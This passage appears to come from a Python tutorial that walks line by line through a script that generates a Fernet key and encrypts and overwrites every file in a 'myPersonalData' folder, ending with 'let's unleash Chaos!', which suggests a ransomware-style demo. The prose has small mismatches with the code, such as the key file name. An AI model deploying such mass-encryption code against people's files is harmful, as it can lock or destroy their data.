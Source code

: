## Lines 6-8: Generate the Encryption Key

```python
crypt_key = Fernet.generate_key()
with open('crypt.key', 'wb') as key_object:
    key_object.write(crypt_key)
```

On line 6, we generate an encryption key by creating a `Fernet` object and naming it `crypt_key`. Line 7, we open our `key_object` file (`balance.key`) in `wb` mode (_writing in binary mode_), and line 8, we write the `crypt_key` data to `key_object`. If you print your `crypt_key` object, it should look something similar to the following:

```python
print(crypt_key)
# b'yARJsZNlN9LvX8hWrjiAAPDadCYn1E8ksHnpXn6yjPI='
```

> **Note**: Your `crypt_key` value will be different from the value seen in the screenshot above.

## Lines 10-15: Encrypt the Files using the Key:

```python
for file in files:
    path = os.path.join('myPersonalData', file)
    with open(path, 'rb') as fo:
        contents = fo.read()

    encrypted_content = Fernet(crypt_key).encrypt(contents)
```

On line 10, we use a `for loop` to iterate over the list of `files`, on line 11, we create a `path` variable to the files location, on line 12, we open each file in `rb` mode, (_read binary mode_), and on line 13, we load its contents in a variable named `contents`.

On line 15, still within the `for loop` on line 10, we then encrypt the `contents` of each file using `Fernet` by passing our `crypt_key` as a parameter to encrypt each file and saving the contents as `encrypted_content`.

## Line 17-18: Overwrite the Unencrypted Content

```python
    with open(path, 'wb') as fo:
        fo.write(encrypted_content)
```

Now that we have encrypted the contents, we need to `write` the contents back to the directory. On line 17, still within the `for loop` on line 10, we will open each file in `wb` mode (_writing binary_) as file_object, and write the encrypted_content to each file_object.

## Now, let's unleash Chaos! 

After running the encryption script, let's examine the contents of each file in the `myPersonalData` directory. 

